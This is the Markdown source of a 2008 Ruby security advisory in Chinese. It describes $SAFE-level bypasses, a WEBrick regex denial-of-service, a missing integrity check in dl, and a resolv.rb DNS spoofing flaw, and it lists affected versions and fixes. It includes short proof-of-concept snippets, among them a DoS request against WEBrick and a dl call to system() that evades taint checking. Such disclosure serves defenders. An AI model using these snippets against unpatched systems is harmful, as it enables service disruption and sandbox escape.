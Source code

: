 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
author: "Xpol Wan"
date: 2008-08-08 04:40:03 +0000
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 详情

发现以下安全漏洞。

### 在安全级别下的几个漏洞

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### WEBrick中的致拒绝服务(DoS)漏洞

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### dl中缺乏完整性检查
{: #label-3}

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### resolv.rb的欺骗DNS漏洞

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 受影响的版本

1.8系列
: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本

1.9系列
: * r18423 和所有之前的修订版本

## 解决办法

1.8系列
: 请更新到1.8.6-p286或者1.8.7-p71。

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]

        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]

        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)

1.9系列

: 请通过Subversion取得最新版本。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 贡献者

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 修订记录

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz
